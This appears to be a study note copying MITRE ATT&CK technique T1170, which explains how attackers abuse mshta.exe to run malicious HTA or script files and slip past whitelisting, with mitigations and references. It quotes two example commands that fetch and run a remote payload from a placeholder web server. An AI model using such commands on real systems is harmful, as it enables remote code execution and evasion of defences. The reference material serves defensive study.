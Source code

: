 ```yaml
---
alias: T1170
---
```


## T1170

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)


### Tactic
- [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/Mobile-Attack/tactics/Defense Evasion]] (TA0005)
- [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/Mobile-Attack/tactics/Execution]] (TA0002)

### Platforms
- Windows

### Permissions Required
- User

### Mitigations

| ID | Name | Description |
| --- | --- | --- |
| [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/Mobile-Attack/mitigations/Execution Prevention\|M1038]] | Execution Prevention | Use application whitelisting configured to block execution of mshta.exe if it is not required for a given system or network to prevent potential misuse by adversaries. |
| [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/Mobile-Attack/mitigations/Disable or Remove Feature or Program\|M1042]] | Disable or Remove Feature or Program | Mshta.exe may not be necessary within a given environment since its functionality is tied to older versions of Internet Explorer that have reached end of life. |

### Sub-techniques


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1170
- Wikipedia HTML Application: https://en.wikipedia.org/wiki/HTML_Application
- MSDN HTML Applications: https://msdn.microsoft.com/library/ms536471.aspx
- Cylance Dust Storm: https://s7d2.scene7.com/is/content/cylance/prod/cylance-web/en-us/resources/knowledge-center/resource-library/reports/Op_Dust_Storm_Report.pdf
- Red Canary HTA Abuse Part Deux: https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/
- FireEye Attacks Leveraging HTA: https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html
- Airbus Security Kovter Analysis: https://airbus-cyber-security.com/fileless-malware-behavioural-analysis-kovter-persistence/
- FireEye FIN7 April 2017: https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html
- LOLBAS Mshta: https://lolbas-project.github.io/lolbas/Binaries/Mshta/
